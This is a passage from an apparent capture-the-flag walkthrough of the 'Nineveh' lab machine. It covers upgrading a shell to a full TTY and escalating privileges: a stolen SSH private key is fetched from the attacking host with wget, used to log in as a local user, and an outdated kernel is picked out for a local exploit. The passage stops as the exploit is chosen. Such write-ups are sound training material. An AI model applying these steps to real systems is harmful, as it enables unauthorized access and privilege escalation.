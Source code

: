 To get a full TTY shell I used the following commands.

```console
ctrl + z
stty raw -echo; fg; reset
export TERM=xterm-256color
export SHELL=bash
```

## Privilege Escalation
### Weak ssh key password/Kernel Exploit

I copied the private key to the web root of the attacking machine.

```console
root@kali:~# cp nineveh.priv /var/www/html
```

On the target machine I downloaded the private key and granted it read and write permissions and logged in via ssh.

```console
www-data@nineveh:/dev/shm$ wget -q 192.168.0.140/nineveh.priv
www-data@nineveh:/dev/shm$ chmod 400 nineveh.priv
www-data@nineveh:/dev/shm$ ssh -l amrois 127.0.0.1 -i nineveh.priv
Could not create directory '/var/www/.ssh'.
The authenticity of host '127.0.0.1 (127.0.0.1)' can\'t be established.
ECDSA key fingerprint is SHA256:aWXPsULnr55BcRUl/zX0n4gfJy5fg29KkuvnADFyMvk.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Ubuntu 16.04.2 LTS
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)
* Documentation:
* Management:
* Support:
https://help.ubuntu.com
https://landscape.canonical.com
https://ubuntu.com/advantage
177 packages can be updated.
95 updates are security updates.
You have mail.
Last login: Sun Dec 31 20:12:59 2017 from 192.168.0.200
amrois@nineveh:~$
```

I noticed that the kernel version is out of date, so I searched for an exploit.

```console
amrois@nineveh:~$ uname -a
Linux nineveh 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
```

I chose the 44298.c exploit.
